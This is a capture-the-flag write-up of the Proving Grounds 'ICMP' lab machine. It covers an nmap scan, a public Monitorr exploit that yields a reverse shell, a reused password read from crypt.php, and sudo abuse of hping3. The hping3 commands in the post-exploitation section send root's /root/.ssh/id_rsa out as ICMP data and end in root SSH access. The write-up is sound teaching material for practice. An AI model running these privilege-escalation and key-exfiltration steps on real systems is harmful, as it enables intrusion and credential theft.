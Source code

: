 ```yaml
---
layout: default
title: ICMP
parent: Proving Grounds Play
nav_order: 20
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.226.218
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-11 22:50 EST
Nmap scan report for 192.168.226.218
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 de:b5:23:89:bb:9f:d4:1a:b5:04:53:d0:b7:5c:b0:3f (RSA)
|   256 16:09:14:ea:b9:fa:17:e9:45:39:5e:3b:b4:fd:11:0a (ECDSA)
|_  256 9f:66:5e:71:b9:12:5d:ed:70:5a:4f:5a:8d:0d:65:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-title:             Monitorr            | Monitorr
|_Requested resource was http://192.168.226.218/mon/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.16 seconds

```

# Enumeration

---

## 80 | HTTP

The system appears to be running Monitorr version 1.7.6

![monitorr](../../../assets/images/ctfs/proving_grounds/icmp/monitorr.png)

# Exploitation

---

There is an exploit for this version of Monitorr

![searchsploit](../../../assets/images/ctfs/proving_grounds/icmp/searchsploit.png)

Run the exploit and we get a reverse shell on our netcat listener.

![shell](../../../assets/images/ctfs/proving_grounds/icmp/shell.png)

# Post-Exploitation

---

## Enumerate Users

We find user _fox_.

Looking in _/home/fox_ we find a directory _/devel_ that we cannot access and a file _reminder_ that we can read.

```bash
www-data@icmp:/home/fox$ cat reminder
crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?

```

There is a hint with a file name _crypt.php_.

If we try to access _/devel/crypt.php_ we can read the contents of the file.

```bash
www-data@icmp:/home/fox$ cat ./devel/crypt.php
<?php
echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
?>

```

It looks like we have the unencrypted vesion of the password for _fox_.

If we use that value as a password we can switch to the user _fox_

```bash
www-data@icmp:/home/fox$ su fox
Password:
$ id
uid=1000(fox) gid=1000(fox) groups=1000(fox)

```

## Check Sudo Permissions for User Fox

```bash
$ sudo -l
[sudo] password for fox:

Sorry, try again.
[sudo] password for fox:
Sorry, try again.
[sudo] password for fox:
Matching Defaults entries for fox on icmp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fox may run the following commands on icmp:
    (root) /usr/sbin/hping3 --icmp *
    (root) /usr/bin/killall hping3

```

We can use sudo permissions on _hping3_

Checking GTFOBins for _hping3_ exploits.

![gtfobins](../../../assets/images/ctfs/proving_grounds/icmp/gtfobins.png)

We should be able to use this exploit to send the _root_ user _.ssh/id_rsa_ private key to our attack machine.

```bash
# open a second ssh session as user fox
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ ssh fox@192.168.226.218
$ whoami
fox

# Now listen for hping3 traffic locally on loopback 127.0.0.1

$ sudo hping3 --icmp 127.0.0.1 --listen signature --safe
Warning: Unable to guess the output interface
hping3 listen mode
[main] memlockall(): Success
Warning: can't disable memory paging!

# Finally we send the /root/.ssh/id_rsa private key

$ sudo /usr/sbin/hping3 --icmp 127.0.0.1 -d 100 --sign signature --file /root/.ssh/id_rsa
HPING 127.0.0.1 (lo 127.0.0.1): icmp mode set, 28 headers + 100 data bytes
[main] memlockall(): Success
Warning: can't disable memory paging!
len=128 ip=127.0.0.1 ttl=64 id=9781 icmp_seq=0 rtt=2.6 ms


```

As we can see the file is printed line by line in our second SSH session.

![hping3](../../../assets/images/ctfs/proving_grounds/icmp/hping3.png)

We now have the private rsa key for the root user and can simply SSH as root

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/icmp]
└─$ ssh -i id_rsa root@192.168.226.218
Linux icmp 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 23 20:18:10 2022
root@icmp:~# id
uid=0(root) gid=0(root) groups=0(root)

```
